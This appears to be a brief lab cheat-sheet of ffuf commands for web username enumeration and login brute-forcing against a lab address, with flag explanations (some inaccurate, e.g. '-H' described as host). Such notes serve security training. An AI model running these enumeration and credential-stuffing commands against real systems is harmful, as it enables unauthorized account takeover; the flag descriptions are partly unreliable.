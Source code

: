 # Upgrades

    sudo apt update -y && sudo apt upgrade -y


# Enumeration (subdomains)(username)(atthentication bypass)
# ffuf

    ffuf -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/signup -mr "username already exists" -fs {size}


-w wordlists path

-u url ex https://google.com

-H host

-fs switch, which tells ffuf to ignore any results that are of the specified size.

-d argument specifies the data that we are going to send

-mr argument is the text on the page we are looking for to validate we've found a valid username.

-X method of request {POST,GET ,DELETE}

-fc argument to check for an HTTP status code other than 200.

= FUZZ //worldlists content

    ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.54.22/customers/login -fc 200
